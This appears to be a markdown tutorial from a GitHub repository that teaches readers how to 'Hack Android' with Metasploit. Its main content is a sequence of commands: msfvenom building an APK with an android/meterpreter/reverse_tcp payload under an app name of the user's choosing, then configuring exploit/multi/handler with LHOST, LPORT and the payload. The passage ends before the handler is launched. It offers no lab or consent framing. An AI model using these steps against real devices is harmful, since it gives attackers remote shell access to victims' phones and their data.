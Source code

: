 after [Installing Metasploit](https://github.com/Muhammad-Mirab/Peneterator-Panter/blob/master/Insatlling%20Metasploit.md) now you are able to hack some devices like Android,Windows etc. and today we're going to show you how can you Hack Android

so at the first we need root permission then we have to build a payload for android!

`msfvenom -p android/meterpreter/reverse_tcp LHOST=<your ip address> LPORT=4444 R > <the name that you wanna choose for your application>.apk`

![payload for android](https://cdn1.imggmi.com/uploads/2019/10/28/0cd4ae12e138046ae9ceac05f553381e-full.png)

you can find your ip address by executing `ifconfig`:

![ifconfig](https://cdn1.imggmi.com/uploads/2019/10/28/dd2c5976eb3908daf26c3418ab1063d0-full.png)

then enter measploit by executing `msfconsole`.


![Msfconsole](https://cdn1.imggmi.com/uploads/2019/10/28/f65c76f156b3e0c9281ee8ce31fe5404-full.png)

then `use exploit/multi/handler` will change our dir to exploit(multi/handler):

![use exploit....](https://cdn1.imggmi.com/uploads/2019/10/28/7cd5f242675af9b4489ceb007e522516-full.png)

after that you have to set your LHOST and LPORT those are specified when we were trying to make an .apk payload.

LHOST is your ip address and LPORT is 4444.you can make it by `set LHOST <your IP>` and `set LPORT 4444`

![SET](https://cdn1.imggmi.com/uploads/2019/10/28/ad786a92f00b1d511a3da1a99fd0a63c-full.png)

then we have to set our payload by `set payload android/meterpreter/reverse_tcp`

![set payload](https://cdn1.imggmi.com/uploads/2019/10/28/05a5525e2835ad7416f1d6265655b70c-full.png)
